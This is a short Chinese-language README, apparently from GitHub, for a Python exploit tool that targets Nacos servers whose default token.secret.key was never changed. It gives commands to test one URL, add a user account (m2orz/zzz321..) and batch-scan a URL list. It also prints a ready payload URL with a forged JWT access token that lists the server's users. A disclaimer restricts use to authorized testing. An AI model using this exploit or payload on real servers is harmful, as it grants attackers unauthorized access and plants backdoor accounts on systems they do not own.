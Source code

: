 # Nacos_default.token

Nacos 平台在默认配置下未对 token.secret.key 进行修改，攻击者通过漏洞可以获取服务器数据库/OSS等权限。

## 工具利用

python3 Nacos_default.token.py -u http://127.0.0.1:1111 单个url测试

python3 Nacos_default.token.py -a http://127.0.0.1:1111 添加用户m2orz/zzz321..

python3 Nacos_default.token.py -f url.txt 批量检测

payload1:http://xxx.com/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9

payload2:


扫描结束后会在当前目录生成存在漏洞url的vuln.txt


## 免责声明

此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
